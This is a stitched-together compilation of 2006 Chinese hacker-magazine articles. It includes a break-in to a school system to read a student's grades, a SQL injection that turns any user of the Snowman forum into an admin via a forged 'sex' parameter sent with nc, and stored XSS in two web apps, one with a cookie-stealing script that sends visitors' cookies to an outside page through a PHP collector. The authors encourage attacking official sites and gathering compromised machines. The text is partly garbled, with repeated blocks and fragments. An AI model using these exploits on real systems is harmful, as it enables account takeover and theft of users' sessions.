# 黑客X档案合订本2006年（上）第二部分

---

# 一个人的战争



图5

接着利用其账号登录，具体命令如下：`update eis_mana_log set pass='华娱' where id=292`，OK，成功进入教师的管理页面，如图6。

经过一番搜索，终于查得她的分数，如下：

```
290.91
2352.5
20.75
2174
```



图6

```
290.91
2352.5
20.75
2174
```

> 怪不得老师不让我们知道别人的名次……

- 此次入侵并没有什么太高深的技术，有时候多看看源代码会对你入侵很有帮助。
- 要多注意服务器的安全，不要把密码文件放在上面（我就在那台服务器上找到所有学校交换机的密码）。
- 有了 SA 权限以后就等于让入侵者有了 SYSTEM 权限，所以建议大家调用数据库时尽量避免用 sa 账号。

（本文涉及的相关工具：HDSI3.0，光盘中有收录。）

## Update 雪人的精彩经历——雪人论坛漏洞提升权限漏洞

现在论坛等程序的安全性都普遍提高了，再也不是随便在某个接受参数的 URL 后面加个“'”就能发现漏洞并利用了。稍微有点安全意识的程序作者都知道将提交过来的容易被修改、导致出问题的参数，如 ID 等做详细处理，特别是地址栏里出现的参数，更是防得滴水不漏……

雪人论坛是国内比较大的一个论坛，早期也曾经存在过 SQL 注入漏洞。这个论坛修改版本众多，在发现大部分修改版 index.asp 存在 Cookie 注入漏洞之后，再次发现其另外一个页面 profile.asp 的重大问题，导致任意用户可以提升为论坛管理员……首先看看出现问题的 profile.asp 的部分代码吧！

```vb
step = ChkSql(request("step"))
select case step
  case "2"
  ...
  else
    StrSql = "select password from sfuuser where username='" & ChkSql(request.cookies("sf")("username")) & "'"
    Set rs2 = Conn.Execute(StrSql)
    if request("birthday_y")="" or request("birthday_m")="" or request("birthday_d")="" then
      birthday="1980-01-01"
    else
      if not (isNumeric(request("birthday_y")) or isNumeric(request("birthday_m")) or isNumeric(request("birthday_d"))) then
      end if
    end if
    sex = request("sex")
    StrSql = "update [sf_user] set ..."
    if request("password")<>"" then
      StrSql = StrSql & ",password='" & md5(ChkSql(request("password"))) & "'"
    end if
    StrSql = StrSql & ", [like]='" & CkSql(server.htmlencode(request("like"))) & "'"
    StrSql = StrSql & ", sex='" & sex & "'"
end select

if request("invisible") = "1" then
    StrSql = StrSql & " invisible = 1"
else
    StrSql = StrSql & " invisible = 0"
end if

StrSql = StrSql & " where username='" & ChkSql(request.cookies("sF")("username")) & "'"
Conn.Execute(StrSql)
```

因为中间用到了 ChkSql 函数，我们看看 inc/char_inc.asp 文件里的 ChkSql 函数：

```vb
function ChkSql(StrSql)
    if isNull(StrSql) then
        ChkStr = ""
        exit function
    end if
    ChkSql = Replace(StrSql, "'", "''")
end function
```

ChkSql 过滤了单引号，经过这层过滤的字符串类型变量没有办法利用了，数字类型还是可以绕过的。来分析代码……看到 `sex = request("sex")` 没有经过任何过滤，且被直接拼进 SQL，这是可利用点。进一步分析可知是 Update 语句，且更新的是 sf_user 表，可将 `sex` 参数改为 `1,usergroup=4` 以提升权限。

赶快去试试！首先去论坛注册一个，修改资料页面如图1。



图1

看到性别表单了吧！我们想办法把它改成 `1,usergroup=4`，提交就可以变成管理员。方法是用 WSE 抓包，修改提交内容后再发送。具体操作见图2。



图2

然后修改其中 POST 内容的 `sex=1` 为 `sex=1,usergroup=4`，并相应修改 `Content-Length`。保存为 jnc.txt，用 `nc -vv 127.0.0.1 80 < jnc.txt` 方式提交，如图3。



图3

退出然后重新登录，如图4，用户名后显示“管理员”，说明成功提权。



图4

```vb
StrSql = "Select * from sf_moderator where userid=" & rs...
```

```asp
(userid<>"" and isadmin="1")
Set rs = Conn.Execute(StrSql)
if not(rs.bof or rs.eof) then
  loginer = false
  session("sfadminname") = username
  session("sfadminpw") = md5(password)
end if
```



图5

原来我们只是前台管理员，登录后台还要求你在 sf_moderator 里 isadmin 为 1。怎么办呢？我们这里的 SQL 语句没有办法直接操作这个表，我也尝试过将管理员的密码更新到我的字段里，但是都失败了。看来只能利用这个 update 语句做其他的了！论坛的跨站脚本好像也防御得很死，但是现在我们已经能跨站了哦！如何做呢？很简单，我们去发几个帖子，然后再利用我们的 Update 注入语句将我们自己的 username 改成 `<script>alert('hehe')</script>jnclovesw` 这样的形式，不就直接操作数据库绕过 ASP 的检查了么？进入数据库的时候检查，取出数据库的时候总不会检查了吧！

具体的操作就是将上面的 `sex=1` 变成 `sex=1,username='<script>alert('hehe')</script>jnclovesw'`，然后注入就行了！注意跨站内容的 `"` 用 `'` 代替哦，如图5。

这个跨站的代码可以有 50 个字符的长度，足够你挂马什么的了，因为主要是讲注入，跨站我就不说了。并且别人是看不出任何异常的，如图6。



图6

他取出的是第一条记录，而查询的顺序是根据 userid 从上到下的，所以你可以任意地改变身份，然后用你自己的密码以别人的身份出现，前提是只要你改比你后注册的。包括他的前面让记录取出来就可以了。经过 ASP 直接操作数据库的结果就是条件允许的话可以做很多意想不到的事情。很多论坛 admin 的 userid 都是 1，甚至默认密码没改，不过他的权限已经是普通用户权限，这个时候你就可以操作将 admin 的名字改成论坛管理员的名字。然后登录后台了，具体的环境下有具体的应用，就不说了呵呵。

关于修补，其实可以看到注册页面并不存在这个漏洞，是因为他是这样取得 sex 的值的：

```asp
sex = request("sex")
if sex <> "1" and sex <> "2" then sex = "1"
```

不是 1 就是 2。这个漏洞给人的教训就是任何变量都是有害的，不管它来自哪里！这种修改版本很多，大家可以去中国站长站上下载看看。还可以 SQL 注入的，肉鸡就又多了哦！很多官方网站都可以进去的。呵呵，有问题欢迎到论坛讨论，我的 ID 是剑心。

不知道的话管理员根据用户名也根本删除不了我们的账户的！因为里面有单引号哦！自己被自己的过滤拦住了！操爆吧！因为是在 Access 中，感觉这个 sex 的注入除了这个外很难有什么作为，但是有一个条件存在的前提下我们可能修改管理员的密码哦！大家注意到我们的 userid 是唯一的由数据库自己分配的，但是 username 却并不唯一，如果我们把名字修改为跟 admin 一样的呢？就是前面的跨站代码改成 admin 就可以修改自己的名字了！修改之后你再去登录，就会发现登录不了！呵呵，因为看到所有的验证语句都是这样写的：

```asp
StrSql = "select password from sf_user where username='" & ChkSql(request.cookies("sf")("username")) & "'"
Set rs2 = Conn.Execute(StrSql)
if (rs2.bof or rs2.eof) then
  err = true
else
  if md5(request("oldpassword")) <> rs2("password") then err = true
end if
```

> 问：每次在登录 Win2003 系统时，总需要先按下键盘上的“Ctrl+Alt+Del”组合键才能登录系统，不需要按“Ctrl+Alt+Del”组合键，怎么能进入到系统中呢？  
> 答：打开“开始”菜单中的“管理工具”命令，在随后弹出的下级菜单中，单击“本地安全策略”选项，并在对应窗口的左侧区域，依次展开“本地策略 / 安全选项”，在对应的右侧区域中，展开“交互式登录”选项，再双击“不需要按 Ctrl+Alt+Del”选项，在随后打开的窗口中，选中“已启用”选项就可以了。

## 跨站2之

# 一个人的战争

xY7

又是一个无聊的周末，在整理移动硬盘的时候翻出一套夜猫文章系统，使用版权“Powered By：ynArticleFree Version 2.1.0”，在网上搜索了一下，使用的人还真不少，就顺便看看代码写得怎么样吧。

夜猫文章系统的代码量不是很大，我们从最基本的开始，打开注册页面 register.php，看到如下代码 `if ($_POST[action] == "adduser")`：

```php
?>
<br><br><br><center><table cellpadding=4 cellspacing=0 border=0 width='70%'>
<tr><td bgcolor=#878787 align=center>
<font color=white>用户注册登记</font>
</td></tr>
<tr><td bgcolor=#efefef>
<?
$birthday1 = $b_year."-".$b_month."-".$b_day;
register($setting[user_reg_usergroupid], $_POST[username], $_POST[password], $_POST[email], $_POST[sex], $_POST[birthday], $_POST[homepage], $_POST[icq], $_POST[oicq], $_POST[race], $_POST[signature], $_POST[ipaddress], $_POST[realname], $_POST[realname1], $_POST[organization], $_POST[organization1], $_POST[country], $_POST[country1], $_POST[province], $_POST[province1], $_POST[city], $_POST[city1], $_POST[address], $_POST[address1], $_POST[zip], $_POST[phone], $_POST[fax], $_POST[idnumber], $_POST[referrerid]);
?>
```

又是用一个专门的函数 register() 来进行提交。大致看了一下提交的变量，第一个 user_reg_usergroupid 好像有点名堂，可惜不是我们提交的，而且我们也不能伪造，那我们就看看这个注册函数怎么定义的。打开 function.php 看到如下代码（代码太长这里只给出关键语句）：

```php
$sql = "INSERT INTO $ymcity_user_table (usergroupid, username, password, email, sex, birthday, homepage, icq, oicq, race, experience, money, signature, joindate, ipaddress, realname, realname1, organization, organization1, country, country1, province, province1, city, city1, address, address1, zip, phone, fax, idnumber, referrerid) VALUES ('$usergroupid', '$username', '$password', '$email', '$sex', '$birthday', '$homepage', '$icq', '$oicq', '$race', '$experience', '$money', '$signature', '$timenow', '$ipaddress', '$realname', '$realname1', '$organization', '$organization1', '$country', '$country1', '$province', '$province1', '$city', '$city1', '$address', '$address1', '$zip', '$phone', '$fax', '$idnumber', '$referrerid')";
```

mysql_db_query($dbname, $sql)，看到了吗？函数直接获取我们提交的变量然后就大大方方地插入到数据库里了，并没有任何想过滤的意思……

然后我们提交修改，怎么样？看到效果了吧，如图2。



图2

在此，我有一个小技巧，大家一般跨站要么偷 cookie 要么挂马，有条件的可以自己提交表单，可通常一次只能写一种代码吧，那我们能不能一次做很多事情呢？当然！……

```html
<div align=center><script>window.open('http://www.hackerxfiles.com/cookie.php?'+document.cookie)</script>
<script>alert('X资源的提示'); self.location='http://www.hackerxfiles.com/numa.html';</script></div>
```

其中 `http://www.hackerxfiles.com/cookie.php` 是假设我们偷 cookie 的页面，cookie.php 代码如下：

```php
<?php
$cookie = getenv("QUERY_STRING");
if ($cookie){
  $cookie = urldecode($cookie);
  $fp = fopen("xy7.txt","a");
  @fwrite($fp,$cookie."\n");
  @fclose($fp);
}
?>
```

这样我们偷的 cookie 就会写到 xy7.txt 里了，之后会弹出一个提示框，点确定后就会转到我们假设挂马的页面……

其实这个文章系统不光只能跨站，我粗略看了一下别的文件，过滤做得也不好，注入也是可以的，以后有机会再给大家分析吧。感兴趣的朋友可以自己下载安装建一个平台，练手很好的啊！这个漏洞修补也很简单，如果你不想过滤就直接禁止用户注册就行了。

文章如有错误还望大家指正，我在 X 论坛 ID 是 elf_xyt，欢迎大家交流！

